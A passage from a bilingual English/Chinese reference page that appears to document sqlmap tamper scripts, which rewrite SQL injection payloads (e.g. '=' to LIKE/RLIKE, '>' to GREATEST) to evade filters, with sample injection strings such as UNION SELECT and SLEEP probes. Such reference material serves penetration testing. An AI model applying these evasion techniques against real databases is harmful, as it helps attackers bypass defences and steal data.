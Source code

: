 Requirement:
* Oracle

Reference
* https://media.blackhat.com/us-13/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf

```py
>>> tamper('1 UNION ALL SELECT')
'1DUNION ALL SELECT'
```

### equaltolike.py

> Replaces all occurrences of operator equal ('=') with 'LIKE' counterpart

将 `=` 换成 `LIKE`

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5

```py
>>> tamper('SELECT * FROM users WHERE id=1')
'SELECT * FROM users WHERE id LIKE 1'
```

### equaltorlike.py

> Replaces all occurrences of operator equal ('=') with 'RLIKE' counterpart

将 `=` 换成 `RLIKE`

Tested against:
* MySQL 4, 5.0 and 5.5

```py
>>> tamper('SELECT * FROM users WHERE id=1')
'SELECT * FROM users WHERE id RLIKE 1'
```

### escapequotes.py

> Slash escape single and double quotes (e.g. ' -> \')

```py
>>> tamper('1" AND SLEEP(5)#')
'1\\\\" AND SLEEP(5)#'
```

### greatest.py

> Replaces greater than operator ('>') with 'GREATEST' counterpart

使用 `greatest` 替换 `>`

Tested against:
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0
